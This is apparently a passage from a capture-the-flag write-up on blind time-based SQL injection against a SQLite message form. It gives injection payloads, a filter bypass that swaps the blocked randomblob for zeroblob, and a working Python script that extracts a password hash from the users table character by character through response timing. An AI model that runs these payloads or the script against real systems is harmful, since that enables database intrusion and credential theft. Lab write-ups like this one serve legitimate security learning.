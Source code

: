 `message='||'a` : `OK`

We  can also concatenate the result of a select statement (but we can't see the result with the web app):

`message='||(select 1)||'a` : `OK`

What we can do is a time-based attack by using the `randomblob` statement but as we can see that specific word is blocked in the code.

`(select case when (SELECT COUNT(*) FROM messages)=1 then randomblob(999999999) else 0 end))` : `forbidden word in message`

There's an alternative to this, we can use the `zeroblob` statement which will essentially do the same thing for us. Here we're testing a true condition (1=1) so the resulting CASE action will consume CPU cycles and introduce latency in the response.

`message='||(select case when 1=1 then zeroblob(999999999) else 0 end)||'a` : `string or blob too big` -> delay > 500 ms

In the following example, the condition is false so the statement returns 0 with no extra latency added.

`message='||(select case when 1=0 then zeroblob(999999999) else 0 end)||'a` : `OK`

We already know the table and column names so all we have to do is write a quick script that will test  every characters/position of the password field and extract the data. Depending on network conditions and server CPU utilization this code may introduce false positives so it is best to run it a few times to make sure the hash we get is not corrupted.

```python
#!/usr/bin/python3

import requests
import time

charset = 'abcdef0123456789'

pwd = ''
i = 1

while (True):
    for c in charset:
        data = {
            'message':"'||(select case when substr((select secret from users),%d,1)='%s' then zeroblob(999999999) else 0 end))--" % (i,c)
        }

        before = time.time()
        r = requests.post('http://10.10.10.195/submitmessage', data=data)
        after = time.time()
        delta = after - before
        if delta > 0.800:
            pwd = pwd + c
            print("Password: %s" % pwd)
            i = i + 1
            break
```
